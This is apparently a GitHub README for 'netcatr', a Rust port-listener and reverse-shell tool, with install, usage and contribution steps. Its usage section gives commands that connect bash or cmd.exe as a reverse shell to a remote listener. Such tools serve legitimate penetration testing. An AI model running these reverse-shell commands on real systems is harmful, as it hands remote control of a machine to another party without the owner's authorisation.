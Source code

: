 # 📡 netcatr

```text
              _                 _         
 _ __    ___ | |_   ___   __ _ | |_  _ __ 
| '_ \  / _ \| __| / __| / _` || __|| '__|
| | | ||  __/| |_ | (__ | (_| || |_ | |   
|_| |_| \___| \__| \___| \__,_| \__||_|   
                                          
```

📡 netcatr netcatr: A cross-platform port listener and reverse shell application designed for ease of use, providing seamless network connectivity.


## ✨ Features

- Command history & Tab completion (Interactive mode);
- CTRL-C blocking;
- Colors;
- Everything easy;


## Modes
- Listen mode (listen);
- Reverse shell mode (connect);

## 🚀 Installation

To install **netcatr**, simply clone the repository and follow the instructions below:

```bash
git clone git@github.com:trinhminhtriet/netcatr.git
cd netcatr

cargo build --release
cp ./target/release/netcatr /usr/local/bin/
```

Running the below command will globally install the `netcatr` binary.

```bash
cargo install netcatr
```

## 💡 Usage

The most basic and useful example to start listening on a port would be (you can even run vim inside netcatr with this):

```bash
netcatr listen -ib 55600
```

and to connect:
```bash
netcatr connect -s bash the.0.0.ip 55600
```

Reverse shell from Windows:
```bash
netcatr connect -s cmd.exe the.0.0.ip 55600
```

## 🗑️ Uninstallation

Running the below command will globally uninstall the `netcatr` binary.

```bash
cargo uninstall netcatr
```

Remove the project repo

```bash
rm -rf /path/to/git/clone/netcatr
```

## 🤝 How to contribute

We welcome contributions!

- Fork this repository;
- Create a branch with your feature: `git checkout -b my-feature`;
- Commit your changes: `git commit -m "feat: my new feature"`;
- Push to your branch: `git push origin my-feature`.

Once your pull request has been merged, you can delete your branch.

## 📝 License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
